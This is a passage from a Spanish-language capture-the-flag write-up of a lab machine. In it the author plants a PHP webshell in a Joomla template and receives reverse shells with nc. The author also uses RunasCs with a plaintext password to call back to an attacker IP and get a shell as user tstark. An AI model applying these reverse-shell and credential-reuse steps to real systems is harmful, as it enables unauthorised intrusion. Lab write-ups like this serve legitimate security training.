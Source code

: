 Ahora simplemente podemos poner una webshell en uno de los ficheros de la plantilla de la página y obtener acceso a la máquina.

![PHP Shell](/assets/writeups/office/6.png)

```bash
❯ nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.3 60162
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\xampp\htdocs\joomla>
```

Ya que conocemos la contraseña de otro usuario, podemos utilizar RunasCs para convertirnos en el.

```bash
PS C:\Temp> .\runas.exe tstark 'playboy69' "powershell" -r 10.10.14.150:8443
[*] Warning: The logon for user 'tstark' is limited. Use the flag combination --bypass-uac and --logon-type '8' to obtain a more privileged token.

[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-a75c2$\Default
[+] Async process 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe' with pid 8068 created in background.
```

```bash
❯ rlwrap nc -lvnp 8443
Listening on 0.0.0.0 8443
Connection received on 10.10.11.3 60222
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Windows\system32>
```

Tony Stark tiene la primera flag en su escritorio, por lo que ya podemos recogerla.

```bat
PS C:\Users\tstark> cd Desktop
cd Desktop
PS C:\Users\tstark\Desktop> dir
dir


    Directory: C:\Users\tstark\Desktop


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
```